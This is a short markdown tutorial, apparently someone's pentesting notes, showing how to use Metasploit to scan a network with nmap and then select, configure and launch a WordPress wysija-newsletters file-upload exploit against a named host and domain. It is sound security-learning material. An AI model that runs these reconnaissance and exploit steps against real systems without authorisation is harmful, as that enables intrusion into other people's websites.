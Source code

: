 # Metasploit

The <dfn>Metasploit</dfn> Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

## WordPress

### Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![][image-1]

#### Scan an Entire Network

-   This will save the results to the Metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

-   `hosts` will list all the hosts found by `nmap`.
-   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![][image-2]

### Use an Exploit

-   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

-   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![][image-3]

-   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

-   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```

[image-1]:	../assets/pentesting/metasploit/575CF62D4C7E18CFD40566EA08E7D588.png
[image-2]:	../assets/pentesting/metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png
[image-3]:	../assets/pentesting/metasploit/67A7D5964C96C63BA11EEA707CB4A604.png